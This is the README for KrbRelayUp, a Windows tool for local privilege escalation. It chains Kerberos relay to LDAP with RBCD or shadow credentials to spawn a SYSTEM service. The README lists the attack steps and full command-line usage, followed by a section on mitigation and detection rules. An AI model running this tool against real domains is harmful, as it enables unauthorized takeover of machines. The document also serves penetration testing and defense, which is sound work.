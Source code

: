 
# KrbRelayUp
Simple wrapper around some of the features of [Rubeus](https://github.com/GhostPack/Rubeus/) and [KrbRelay](https://github.com/cube0x0/KrbRelay) (and a few other honorable mentions in the acknowledgements section) in order to streamline the abuse of the following attack primitive:

0. (Optional) New machine account creation ([New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1))
1. Local machine account auth coercion ([KrbRelay](https://github.com/cube0x0/KrbRelay))
2. Kerberos relay to LDAP ([KrbRelay](https://github.com/cube0x0/KrbRelay))
3. Add RBCD privs and obtain privileged ST to local machine ([Rubeus](https://github.com/GhostPack/Rubeus/))
4. Using said ST to authenticate to local Service Manager and create a new service as NT/SYSTEM. ([SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))

**This is essentially a universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings).**

**UPDATE:** [Here](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9) is an excellent writeup by [@an0n_r0](https://twitter.com/an0n_r0) on how to perform this attack manually (using the **original tools** for this attack path: [PowerMad](https://github.com/Kevin-Robertson/Powermad)/[SharpMad](https://github.com/Kevin-Robertson/Sharpmad), [KrbRelay](https://github.com/cube0x0/KrbRelay), [Rubeus](https://github.com/GhostPack/Rubeus) and [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))

### Update - Shadow Credentials Support
I added some features to support this attack primitive using shadow credentials. Note this eliminates the need for adding (or owning) another machine account.

1. Local machine account auth coercion ([KrbRelay](https://github.com/cube0x0/KrbRelay))
2. Kerberos relay to LDAP ([KrbRelay](https://github.com/cube0x0/KrbRelay))
3. Generate new KeyCredential and add it to the local machine account's 'msDS-KeyCredentialLink' attribute. ([Whisker](https://github.com/eladshamir/Whisker) and [KrbRelay](https://github.com/cube0x0/KrbRelay))
4. Using said KeyCredential to obtain a TGT for the local machine account via PKInit. ([Rubeus](https://github.com/GhostPack/Rubeus/))
5. Using the TGT to obtain privileged ST to local machine via S4U2Self and TGSSUB. ([Rubeus](https://github.com/GhostPack/Rubeus/))
6. Using said ST to authenticate to local Service Manager and create a new service as NT/SYSTEM. ([SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))

## Usage
```
KrbRelayUp - Relaying you to SYSTEM

FULL: Perform full attack chain. Options are identical to RELAY. Tool must be on disk.
RELAY: First phase of the attack. Will Coerce Kerberos auth from local machine account, relay it to LDAP and create a control primitive over the local machine using RBCD or SHADOWCRED.
Usage: KrbRelayUp.exe relay -d FQDN -cn COMPUTERNAME [-c] [-cp PASSWORD | -ch NTHASH]

    -m   (--Method)                   Abuse method to use in after a successful relay to LDAP <rbcd/shadowcred> (default=rbcd)
    -p   (--Port)                     Port for Com Server (default=12345)

    # RBCD Method:
    -c   (--CreateNewComputerAccount) Create new computer account for RBCD. Will use the current authenticated user.
    -cn  (--ComputerName)             Name of attacker owned computer account for RBCD. (default=KRBRELAYUP$)
    -cp  (--ComputerPassword)         Password of computer account for RBCD. (default=RANDOM [if -c is enabled])

    # SHADOWCRED Method:
    -f   (--ForceShadowCred)          Clear the msDS-KeyCredentialLink attribute of the attacked computer account before adding our new shadow credentials. (Optional)


SPAWN: Second phase of the attack. Will use the appropriate control primitive to obtain a Kerberos Service Ticket and will use it to create a new service running as SYSTEM.
Usage: KrbRelayUp.exe spawn -d FQDN -cn COMPUTERNAME [-cp PASSWORD | -ch NTHASH] <-i USERTOIMPERSONATE>

    -m   (--Method)                   Abuse method used in RELAY phase <rbcd/shadowcred> (default=rbcd)
    -i   (--Impersonate)              User to impersonate. should be a local administrator in the target computer. (default=Administrator)
    -s   (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc  (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)

    # RBCD Method:
    -cn  (--ComputerName)             Name of attacker owned computer account for RBCD. (default=KRBRELAYUP$)
    -cp  (--ComputerPassword)         Password of computer account for RBCD. (either -cp or -ch must be specified)
    -ch  (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (either -cp or -ch must be specified)

    # SHADOWCRED Method:
    -ce  (--Certificate)              Base64 encoded certificate or path to certificate file
    -cep (--CertificatePassword)      Certificate password (if applicable)


General Options:
    -d  (--Domain)                   FQDN of domain. (Optional)
    -dc (--DomainController)         FQDN of domain controller. (Optional)
    -ssl                             Use LDAP over SSL. (Optional)
    -n                               Use CreateNetOnly (needs to be on disk) instead of PTT when importing ST (enabled if using FULL mode)


KRBSCM: Will use the currently loaded Kerberos Service Ticket to create a new service running as SYSTEM.
Usage: KrbRelayUp.exe krbscm <-s SERVICENAME> <-sc SERVICECOMMANDLINE>

    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)
```

## Examples

![example](Images/example_rbcd.png)
![example](Images/example_shadowcred.png)

## TODO
- [x] Code refactoring and cleanup!!!
- [x] Add ShadowCred attack as a RELAY method
- [ ] Add TGTDELEG attack  in SPAWN method to be used in Network Service->SYSTEM scenarios (potatoes alternative)
- [x] Fix the issue I'm having trying to combine the RELAY and SPAWN methods into one run so it can be used as one complete command. Probably has something to do with the fact that both RELAY and SPAWN functionalities rely on hooks during the initialization of the COM Server (Once RELAY initializes its COM Server the SPAWN can't re-initialize it to place its hooks as well)

## Mitigation & Detection
* Enforce LDAP Signing and LDAP Channel Binding to mitigate the relay of the machine account KRB auth to LDAP. This can be configured via the "Domain Controller: LDAP server signing requirements" GPO. (Thank you [Will Dormann](https://twitter.com/wdormann) for your [tweet](https://twitter.com/wdormann/status/1518999885550440451) on this matter)
* Make the attack requirements harder to obtain by setting the [MS-DS-Machine-Account-Quota attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota) in AD to **0**, thus removing the ability of any user to add a new machine account to the domain. This is a dangerous default setting in AD - make sure you change it.
* Setting the flag "Account is sensitive and cannot be delegated" on all admin accounts (or put them in protected users) would make it so there is no account with the privileges required that can be delegated in order to complete the attack path. (Thanks to [Christoph Falta](https://twitter.com/cfalta) for this [tweet](https://twitter.com/cfalta/status/1519309206230339585))
* Resources for possible monitoring and detection rules:
    1. https://github.com/tsale/Sigma_rules/blob/main/windows_exploitation/KrbRelayUp.yml ([@Kostastsale](https://twitter.com/Kostastsale))
    2. https://twitter.com/SBousseaden/status/1518976397364056071 ([@SBousseaden](https://twitter.com/SBousseaden)). Mainly the rule about authentication to Service Manager via Kerberos from 127.0.0.1, Great Work!.
    3. https://www.linkedin.com/posts/john-dwyer-xforce_threathunting-threatdetection-blueteam-activity-6924739962131140608-py45/ ([John Dwyer](https://www.linkedin.com/in/john-dwyer-xforce/) [@TactiKoolSec](https://twitter.com/TactiKoolSec))
    4. https://twitter.com/cyb3rops/status/1519241598311321601 ([@cyb3rops](https://twitter.com/cyb3rops))


## Acknowledgements
* [James Forshaw](https://twitter.com/tiraniddo) for his research on [Kerberos relaying](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html) and for figuring out how to [use Kerberos Service Tickets for LOCAL authentication to Service Manager](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) which was the missing piece of the puzzle in order to make this attack primitive **local only** (before that, we had to export the ST to a remote machine in order to use it and gain privileged access to our target machine). Also for his [New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) functionality which was used in this project.
* [Cube0x0](https://twitter.com/cube0x0) This project wouldn't exist without his amazing work on [KrbRelay](https://github.com/cube0x0/KrbRelay) - a lot of code was taken from there and it made me gain a deeper understanding on how Kerberos Relaying works (I really recommend going through the code for anyone who wish to understand the concept better).
* [Elad Shamir](https://twitter.com/elad_shamir) for his research on [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) and his awsome tool [Whisker](https://github.com/eladshamir/Whisker) - parts of his code (and of course [cube0x0](https://twitter.com/cube0x0)'s [KrbRelay](https://github.com/cube0x0/KrbRelay) code) was used to add support for the Shadow Credentials attack in this tool.
* [Will Schroeder](https://twitter.com/harmj0y) and everyone who contributed to [Rubeus](https://github.com/GhostPack/Rubeus/) which we all know and love. Basically all the RBCD-S4U functionality was taken from there.
* [Michael Grafnetter](https://twitter.com/mgrafnetter) for his tool [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) which was used here to help with the Shadow Credentials functionality.
* [Orange-Cyberdefense](https://github.com/Orange-Cyberdefense) for their work on [GOAD](https://github.com/Orange-Cyberdefense/GOAD), the Active Directory research lab I am using which you can see in the demo video and images.
